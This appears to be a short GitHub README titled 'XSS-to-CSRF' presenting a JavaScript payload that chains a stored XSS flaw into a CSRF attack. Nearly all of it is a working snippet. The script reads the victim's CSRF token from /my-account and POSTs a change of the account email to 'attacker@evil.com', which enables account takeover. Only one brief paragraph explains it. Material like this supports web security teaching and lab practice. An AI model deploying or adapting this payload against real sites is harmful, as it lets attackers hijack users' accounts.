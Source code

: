 # XSS-to-CSRF

The code snippet provided demonstrates a **Cross-Site Request Forgery (CSRF)** attack utilizing a **Cross-Site Scripting (XSS)** vulnerability.

By combining a Stored XSS vulnerability to inject the malicious script and a CSRF attack to perform unauthorized actions on the victim's behalf, this code demonstrates a scenario where the victim would change his email address to one specified by the attacker in case the XSS payload gets triggered.

```JavaScript
var request = new XMLHttpRequest();
request.responseType = "document"
request.open("GET", "/my-account", true);

request.onload = function(e) {
  var csrf = e.target.response['body'].querySelectorAll('[name="csrf"]')[0].value;
  
  data = "email=attacker@evil.com&csrf=" + csrf
  
  var request = new XMLHttpRequest();
  request.open("POST", "/my-account/change-email", true);
  request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  request.send(data);
}
request.send();
```
